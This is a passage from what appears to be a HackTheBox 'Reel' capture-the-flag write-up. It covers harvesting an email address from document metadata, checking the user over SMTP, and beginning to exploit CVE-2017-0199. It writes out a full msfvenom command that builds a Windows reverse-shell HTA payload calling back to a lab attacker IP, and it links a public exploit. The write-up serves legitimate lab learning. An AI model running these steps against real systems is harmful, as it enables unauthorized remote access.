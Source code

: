 However, taking a look at **Windows Event Forwarding.docx** using `exiftool`, creator is found to be **nico@megabank.com**, which is very interesting:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-30.png)

### SMTP - TCP 25

Since we have a potential valid user **nico**, let's verify using SMTP:

`ismtp -h 10.10.10.77 -e ~/Documents/htb/reel/user-list.txt`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-31.png)

`ismtp` verifies user nico is a valid user.

## Shell as nico
### CVE-2017-0199

Recalling **readme.txt** from the FTP earlier, let's try on [CVE-2017-0199](https://nvd.nist.gov/vuln/detail/CVE-2017-0199):

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-7.png)

We will use [this exploit](https://github.com/bhdresh/CVE-2017-0199) for it. 

We will first create a malicious payload that will spawn a reverse shell:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.36 LPORT=443 -f hta-psh -o msfv.hta`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/reel/image-8.png)
